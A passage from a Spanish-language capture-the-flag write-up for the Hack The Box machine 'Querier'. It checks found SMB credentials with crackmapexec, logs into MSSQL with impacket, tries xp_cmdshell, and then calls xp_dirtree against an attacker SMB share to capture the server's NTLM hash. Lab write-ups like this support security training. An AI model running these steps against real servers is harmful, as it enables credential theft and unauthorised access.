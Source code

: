 Vemos que nos reporta un **[-]**, pero lo maneja como dominio de **HTB.LOCAL**, vamos a probar si el usario existe pero a nivel del sistema y no de dominio:

```bash
❯ crackmapexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6
```

Ahora si vemos un **[+]**, lo que significa que el usuario existe a nivel de sistema. Una vez que validamos las credenciales, podemos conectarnos al servicio de *Microsoft SQL Server*:

```bash
❯ mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth
/usr/local/lib/python2.7/dist-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```

Vamos a probar si podemos ejecutar algunos comandos:

```bash
SQL> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL> sp_configure "show advanced", 1
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
SQL>
```

Vemos que no podemos ejecutar comandos a nivel de sistema ni tampoco tenemos privilegios para alterar la configuración que nos pueda permitir habilitar la ejecución de comandos. Por lo tanto, lo que nos queda sería tratar de acceder a un recurso compartido por red mediante el uso del comando `xp_dirtree`. Asi que, nos compartimos un recurso desde nuestra máquina de atacante:

```bash
SQL> xp_dirtree "\\10.10.14.2\smbFolder\test"
subdirectory                                                                                                                                                                                                                                                            depth   

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   -----------   

SQL>
```
